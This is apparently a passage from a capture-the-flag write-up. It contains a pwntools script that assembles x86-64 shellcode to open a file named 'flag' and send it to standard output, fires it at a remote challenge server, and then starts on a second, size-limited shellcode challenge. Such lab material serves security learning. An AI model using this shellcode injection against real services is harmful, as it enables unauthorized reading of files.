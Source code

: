 
```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall


flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 2

First thing we do is, like the previous challenge, edit the boilerplate file with the new port and navigate to the target and observing the webpage, we can see that the flag is in the same location but that "This challenge reads in much fewer bytes." and this statement is reinforced by another line that states the following: "Reading 0x18 bytes from stdin.".
